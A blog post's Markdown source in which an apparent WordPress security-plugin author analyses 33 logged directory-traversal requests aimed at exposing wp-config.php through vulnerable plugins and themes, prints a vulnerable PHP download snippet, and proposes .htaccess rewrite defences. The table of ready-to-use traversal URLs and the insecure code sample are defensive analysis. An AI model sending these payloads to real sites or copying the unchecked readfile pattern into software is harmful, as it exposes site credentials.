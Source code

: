 ```yaml
---
layout: post
title:  "Prevent exposure of wp-config.php"
date:   2015-10-24 13:30:00
categories: article
published: true
script: []
inline:
---
```


From July to September in 2015, 33 types of malicious requests to attempt 
exposing the `wp-config.php` via vulnerable plugins and themes had been 
observed on my site. I analyzed all of them to identify if 
[IP Geo Block][IP-Geo-Block] can block them or not.

<!--more-->

Unfortunately, I could not find all the causes of exposure because most of 
them were already removed from the WordPress repository. So I can't say the 
right thing with confidence, but the only 2 of these could be blocked by 
[IP Geo Block 2.1.5 and under][IP-Geo-Block] even if they were from the 
forbidden countries.

In this article, I should clarify how to prevent exposure of `wp-config.php` 
against such malicous requests.

### <span id="sec1">Analysis of Attack Vectors</span> ###

Before showing the results, I should explain about the description of the 
terms same as in [the previous article][Analysis].

```text
Attack Vector = Type x Path
```

where:

- **Type**: The type of vulnerability that an attacker can abuse. For example, 
  XSS, SQLI, LFI and so on. Also it includes some certain parameters which 
  are generally called "signature".
- **Path**: The path to the entrance into WordPress where an attacker can 
  deliver the certain type of vulnerability.

The "**Path**" can be categorized into following : 

<table>
  <thead>
    <tr>
      <th>Abbreviation of Path</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><span class="label label-success">WP</span></td>
      <td><strong>W</strong>ord<strong>P</strong>ress</td>
    </tr>
    <tr>
      <td><span class="label label-danger">PD</span></td>
      <td><strong>P</strong>lugin <strong>D</strong>irect</td>
    </tr>
    <tr>
      <td><span class="label label-warning">N/A</span></td>
      <td><strong>N</strong>ot <strong>A</strong>vailable</td>
    </tr>
  </tbody>
</table>

Here's the table of 33 requests that were attempted to expose `wp-config.php` 
in my site. Most of them were disclosed recently.
[IP Geo Block 2.1.5 and under][IP-Geo-Block] can only protect the **Path** of 
<span class="label label-success">WP</span>, while the 
<span class="label label-danger">PD</span> (and probably 
<span class="label label-warning">N/A</span>) can not because those plugins 
and themes never load the WordPress core.

<div class="table-responsive">
  <table id="my-table" class="table">
    <thead>
      <tr>
        <th>Type</th>
        <th>Path</th>
        <th>Disclosed</th>
        <th>Request</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td><abbr title="Aribtrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-08-10</td><!-- PD/NG -->
        <td><a href="https://www.exploit-db.com/exploits/37751/" title="WordPress WPTF Image Gallery 1.03 - Aribtrary File Download - Exploits Database">/wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-16</td><!-- PD/NG https://github.com/wp-plugins/simple-image-manipulator -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=147" title="Vulnerability">/wp-content/plugins/./simple-image-manipulator/controller/download.php?filepath=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-12</td><!-- PD/NG https://github.com/wp-plugins/candidate-application-form -->
        <td><a href="https://wpvulndb.com/vulnerabilities/8099" title="Candidate Application Form &lt;= 1.0 - Arbitrary File Download">/wp-content/plugins/candidate-application-form/downloadpdffile.php?fileName=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-09</td><!-- PD/NG https://wordpress.org/plugins/ibs-mappro/developers/ -->
        <td><a href="http://www.securityfocus.com/bid/75698" title="WordPress IBS Mappro Plugin 'download.php' Arbitrary File Download Vulnerability">/wp-content/plugins/ibs-mappro/lib/download.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-05</td><!-- PD/NG https://github.com/wp-plugins/image-export -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=135" title="Vulnerabilit">/wp-content/plugins/image-export/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-05</td><!-- PD/NG https://wordpress.org/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/developers/ -->
        <td><a href="https://www.exploit-db.com/exploits/37494/" title="WordPress S3Bubble Cloud Video With Adverts &amp; Analytics 0.7 - Arbitrary File Download - Exploits Database">/wp-content/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/assets/plugins/ultimate/content/downloader.php?path=../../../../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
        <td>2015-07-05</td><!-- OK https://wordpress.org/plugins/wp-ecommerce-shop-styling/developers/ -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=136" title="Vulnerabilit">/wp-content/plugins/wp-ecommerce-shop-styling/includes/download.php?filename=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
        <td>2015-07-02</td><!-- OK https://github.com/wp-plugins/wp-swimteam/commit/3652df6c40d493cebb3e19f414edb0898d636bd5 -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=134" title="Vulnerabilit">/wp-content/plugins/wp-swimteam/include/user/download.php?file=../../../../../wp-config.php&amp;filename=../../../../../wp-config.php&amp;contenttype=text/html&amp;transient=1&amp;abspath=/usr/share/wordpress</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-06-10</td><!-- PD/NG https://github.com/wp-plugins/history-collection -->
        <td><a href="https://www.exploit-db.com/exploits/37254/" title="WordPress History Collection &lt;= 1.1.1 - Arbitrary File Download - Exploits Database">/wp-content/plugins/history-collection/download.php?var=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-04-18</td><!-- N/A NG -->
        <td><a href="https://packetstormsecurity.com/files/131502/WordPress-WP-Mon-Arbitrary-File-Download.html" title="WordPress WP-Mon Arbitrary File Download - Packet Storm">/wp-content/plugins/wp-moN/Assets/download.php?type=octet/stream&amp;path=../../../../&amp;name=wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-04-13</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/36733/" title="WordPress Plugin 'WP Mobile Edition' 2.2.7 - Remote File Disclosure Vulnerability - Exploits Database">/wp-content/themes/mTheme-Unus/css/css.php?files=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-03-26</td><!-- PD/NG https://github.com/wp-plugins/aspose-cloud-ebook-generator/commit/1c51e382fed7f3025fbe4469a729fd0aea7a1231 -->
        <td><a href="https://packetstormsecurity.com/files/131040/WordPress-Aspose-Cloud-eBook-Generator-File-Download.html" title="WordPress Aspose Cloud eBook Generator File Download - Packet Storm">/wp-content/plugins/aspose-cloud-ebook-generator/aspose_posts_exporter_download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Local File Disclosure">LFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-02-16</td><!-- N/A -->
        <td><a href="http://milw00rm.org/exploits/7497" title="Wordpress Justified Image Grid 2.0.1 - Multiple (LFD/XSS) Vulnerabilities">/wp-content/plugins/justified-image-grid/download.php?file=file:///var/www/wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/markant/download.php?file=../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/MichaelCanthony/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/felis/download.php?file=../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/SMWF/inc/download.php?file=../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/TheLoft/download.php?file=../../../wp-config.php</a></td>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/trinity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/urbancity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/yakimabait/download.php?file=./wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-07</td><!-- N/A -->
        <td><a href="https://wpvulndb.com/vulnerabilities/7710" title="ChurcHope Theme Local File Inclusion (LFI)">/wp-content/themes/churchope/lib/downloadlink.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-06</td><!-- N/A -->
        <td><a href="http://www.homelab.it/index.php/2014/12/06/wordpress-ajax-store-locator-arbitrary-file-download-vulnerability/" title="Wordpress Ajax Store Locator Arbitrary File Download Vulnerability">/wp-content/plugins/ajax-store-locator-wordpress_0/sl_file_download.php?download_file=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2014-09-09</td><!-- PD/NG https://github.com/wp-plugins/wp-support-plus-responsive-ticket-system/commit/42d48000a489206243beaabfe798d02d411bd330#diff-29 -->
        <td><a href="https://www.exploit-db.com/exploits/34589/" title="WordPress WP Support Plus Responsive Ticket System 2.0 Plugin - Multiple Vulnerabilities - Exploits Database">/wp-content/plugins/wp-support-plus-responsive-ticket-system/includes/admin/downloadAttachment.php?path=../../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-08</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/34578/" title="WordPress Acento Theme view-pdf.php file param - Arbitrary File Download - Exploits Database">/wp-content/themes/acento/includes/view-pdf.php?download=1&amp;file=/path/wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-08</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/128188/WordPress-Antioch-Arbitrary-File-Download.html" title="WordPress Antioch Arbitrary File Download - Packet Storm">/wp-content/themes/antioch/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-07</td><!-- N/A -->
        <td><a href="https://cxsecurity.com/issue/WLB-2014090037" title="Wordpress Authentic Theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/authentic/includes/download.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-07</td><!-- N/A http://www.organizedthemes.com/themes/epic/ -->
        <td><a href="http://cxsecurity.com/issue/WLB-2014090036" title="Wordpress epic theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/epic/includes/download.php?file=wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-03</td><!-- N/A NG -->
        <td><a href="https://blog.sucuri.net/2014/09/slider-revolution-plugin-critical-vulnerability-being-exploited.html" title="Slider Revolution Plugin Critical Vulnerability Being Exploited - Sucuri Blog">/wp-admiN/Admin-ajax.php?action=revslider_show_image&amp;img=../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-04-14</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/32861/" title="WordPress Theme LineNity 1.20 - Local File Inclusion - Exploits Database">/wp-content/themes/linenity/functions/download.php?imgurl=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-08-31</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/128101/WordPress-NativeChurch-lote27-FR0_theme-acento-File-Download.html" title="WordPress NativeChurch / lote27 / FR0_theme / acento File Download - Packet Storm">/wp-content/themes/lote27/download.php?download=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2014-08-01</td><!-- https://github.com/wp-plugins/contus-video-gallery/releases -->
        <td><a href="https://wpvulndb.com/plugins/contus-video-gallery" title="WordPress Plugin: contus-video-gallery">/wp-content/plugins/contus-video-gallery/hdflvplayer/download.php?f=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2011-09-19</td><!-- N/A http://plugins.svn.wordpress.org/filedownload/ -->
        <td><a href="https://www.exploit-db.com/exploits/17858/" title="WordPress Filedownload Plugin 0.1 - download.php Remote File Disclosure Vulnerability - Exploits Database">/wp-content/plugins/filedownload/download.php?path=../../../wp-config.php&amp;type=aplication/pdf</a></td>
      </tr>
    </tbody>
  </table>
</div>

### <span id="sec2">What's the cause?</span> ###

As you can see, most of them had their own download function like 
`download.php`. Typical OMG <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f631.png)
</span> code in there are like following :

{% highlight php %}
<?php
$file = $_GET['file'];
if (file_exists('../../uploads/xxxx/'.$file)) {
    readfile('../../uploads/xxxx/'.$file);
    exit();
}
?>
{% endhighlight %}

This kind of vulnerability is caused by [Directory Traversal][OWASP] attack.

### <span id="sec3">How to protect my site against such OMG code?</span> ###

First and foremost, we should consider to make the **Path** transformed from 
<span class="label label-danger">PD</span> and 
<span class="label label-warning">N/A</span> to
<span class="label label-success">WP</span>. If those plugins and themes would 
load WordPres core before they were excuted, [IP Geo Block][IP-Geo-Block] can 
have a chance to block the attacks.

So we should force those plugins and themes to load the `wp-load.php`. To 
achieve this, we can configure our `.htaccess` in the plugins directory to 
rewrite the request using following directives :

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteCond %{REQUEST_URI} !ip-geo-block/rewrite.php$
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

The absolute path of `/wp-content/plugins/` should be changed according to 
your site configuration. And here's the example in themes directory :

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

Those will redirect a request, which is pointed to 
`/wp-content/plugins/.../*.php` or to 
`/wp-content/themes/.../*.php`, to the [rewrite.php][WritePHP] in 
[IP Geo Block][IP-Geo-Block] in order to load `wp-load.php` and then it will 
be validated by country code or WP-ZEP <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f4aa.png)
</span>.

Another consideration for **Type** in **Attack Vector** is that 
[IP Geo Block][IP-Geo-Block] should filter out the "**Malicious signature**" 
such as `wp-config.php` or `passwd` to defence against attacks from the 
permitted countries.

I'll provide you this functionarity in the next release (may be 2.2.0) !! 
<span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f63c.png)
</span>

[IP-Geo-Block]: https://wordpress.org/plugins/ip-geo-block/ "WordPress › IP Geo Block « WordPress Plugins"
[Analysis]:     {{ "/article/analysis-attack-vector.html" | prepend: site.baseurl }} "Analysis of Attack Vector against WP Plugins"
[OWASP]:        https://www.owasp.org/index.php/Path_Traversal "Path Traversal - OWASP"
[WritePHP]:     https://github.com/tokkonopapa/WordPress-IP-Geo-Block/blob/master/ip-geo-block/rewrite.php "WordPress-IP-Geo-Block/rewrite.php at master - tokkonopapa/WordPress-IP-Geo-Block"
